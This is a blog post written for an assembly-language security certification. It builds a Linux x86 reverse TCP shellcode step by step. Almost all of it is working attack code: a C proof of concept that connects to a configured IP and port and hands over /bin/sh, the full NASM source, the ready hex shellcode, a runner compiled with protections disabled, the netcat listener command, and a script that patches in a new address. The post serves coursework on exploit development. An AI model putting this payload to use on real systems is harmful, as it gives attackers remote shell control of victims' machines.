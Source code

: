```yaml
---
comments: true
date: 2014-04-04
layout: post
title: 'SLAE Assignment 2: Reverse Bind TCP Shellcode'
categories:
- programming
- SLAE
---
```


This is the second of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:
	
  1. Create a shellcode that reverse connect to a configured ip and port;
	
  2. The shellcode must execute /bin/sh on successful connection;
	
  3. IP and port number should be easily configurables

The difference between this assignment and the [previous one](http://www.paolostivanin.com/blog/2014/04/03/slae-assignment-1-bind-tcp-shellcode/) is that in the first assignment the shellcode "is a server" so we connect to it using netcat and then a shell is executed and "bound" to the **client terminal** while in this one the shellcode "is a client" so we need netcat running in listen mode on the configured ip and port and after a successful connection a shell **is bound to the server terminal**.

First of all i made a proof of concept of a program that connect to a configured ip (192.168.1.167) and port (7500) and execute /bin/sh on successful connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of fd.

```c    
#define STDIN 0
#define STDOUT 1
#define STDERR 2

int main(void){
	int fd;
	struct sockaddr_in server_addr;
	char *argv[] = { "/bin/sh", NULL };

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");

	fd = socket(AF_INET, SOCK_STREAM, 0);

	connect(fd, (struct sockaddr *)&server_addr, 16);

	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(fd, STDIN);
	dup2(fd, STDOUT);
	dup2(fd, STDERR);

	execve(argv[0], &argv[0], NULL);

	return 0;
}
```

As you can see in the above PoC, in our shellcode we'll need these syscall:

  1. two `sys_socketcall(int call, unsigned long *args)` where int call will be `SYS_SOCKET` and `SYS_CONNECT` according to `/usr/include/linux/net.h`;
	
  2. three `sys_dup2(int oldfd, int newfd)`;
	
  3. one `sys_execve(char *filename, char *argv[], char *envp[])` where both `*argv[]` and `*envp[]` must be null terminated;

Below there is the complete shellcode:

```nasm
;Description:	Assignment #2 (Reverse_Shell_Bind_TCP, 79 bytes)
;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
;Author: 		Paolo Stivanin <https://github.com/polslinux>
;SLAE ID:		526

global _start
section .text
_start:
	;socket(): sys_socketcall(int call, unsigned long *args)
	;eax -> sys_socketcall
	;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5),...}
	;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
	xor edx,edx
	xor ebx,ebx
	push BYTE 0x66 	;sys_socketcall
	pop eax
	inc ebx			;SYS_SOCKET
	push edx		;0
	push BYTE 1 	;SOCK_STREAM
	push BYTE 2		;AF_INET
	mov ecx,esp
	int 0x80
	xchg esi,eax

	;connect(): sys_socketcall(int call, unsigned long *args)
	;eax -> sys_socketcall
	;ebx -> SYS_CONNECT
	;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_address{192.168.1.167}}, 16)
	mov BYTE al,0x66
	inc ebx
	inc ebx					;SYS_CONNECT
	push DWORD 0xa701a8c0	;192.168.1.167
	push WORD 0x4c1d		;port 7500
	push WORD 2				;AF_INET
	mov ecx,esp
	push BYTE 16
	push ecx
	push esi
	mov ecx,esp
	int 0x80

	;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
	mov ebx,esi
	push BYTE 2
	pop ecx
lp:	mov BYTE al,0x3f
	int 0x80
	dec ecx
	jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		

	;execve /bin/sh
	mov BYTE al,11
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx,esp
	push edx
	mov edx,esp
	push ebx
	mov ecx,esp
	int 0x80
```

I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign2]({{ site.baseurl }}/images/2014/04/graph_assign2-601x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign2.png)

To assemble, link and get the hex shellcode I used the[ same script of Assignment 1](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/alg-shell.sh).

Before executing the program the C source file must be updated with the newest shellcode:

```c    
/* Template for running shellcode
 * Author: Paolo Stivanin <https://github.com/polslinux>
 * SLAE Student ID: 526
 */

#include <stdio.h>
#include <string.h>

unsigned char shellcode[] = \
"\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";

int main(void){
	printf("%zu\n", strlen(shellcode));
	int (*ret)() = (int(*)())shellcode;
	ret();
	return 0;
}
```

Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Reverse_Shell_Bind_TCP (or with [this](https://github.com/polslinux/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then:

  1. open a terminal and type nc -v -l -p 7500
	
  2. execute Reverse_Shell_Bind_TCP

**[![ass2]({{ site.baseurl }}/images/2014/04/ass2-1024x575.png)]({{ site.baseurl }}/images/2014/04/ass2.png)**

The last point of this assignment ask to provide an easily way to configure the ip address and the port number. To accomplish this request I developed this small script:

```shell    
#!/bin/bash

#Description:	Assignment #2 (Reverse_Shell_Bind_TCP, configure ip and port)
#Author: 		Paolo Stivanin <https://github.com/polslinux>
#SLAE ID:		526

if [ -z "$1" ]; then
	echo "Usage: $0 <elf-file>"
	exit -1
fi

oldip=$(od -t x1 $1|grep -E -o "43 68.{0,12}"|sed 's/\ //g'|sed 's/^.\{4\}//g')
hexoldip=$(printf '%s' $oldip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')

oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')

echo "[?] Write IP in dotted format (eg 192.168.1.167): "
read dotip
hexip=$(printf '%02x' $(echo ${dotip//./ }))

echo "[?] Write port number: "
read port
hexport=$(printf '%x' $port)

echo "[+] HEX code of choosed IP: $hexip"
echo "[+] HEX code of choosed port: $hexport"

echo "[+] Updating $1 elf..."
newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1
newip=$(printf '%s' $hexip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
sed -i "s/\x43\x68$hexoldip/\x43\x68$newip/g" $1

echo "[+] All done :)"
```

All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
